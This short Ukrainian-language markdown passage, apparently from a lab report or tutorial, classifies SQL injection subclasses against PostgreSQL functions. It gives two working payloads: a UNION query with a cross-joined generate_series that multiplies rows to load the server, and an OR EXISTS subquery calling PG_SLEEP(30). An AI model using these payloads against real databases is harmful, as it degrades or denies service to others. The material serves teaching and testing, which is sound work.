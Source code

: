 ### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>
![Результат SQL-ін'єкції](/screenshots/1.4.2.1.png)

### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
![Результат SQL-ін'єкції](/screenshots/1.4.2.2.png)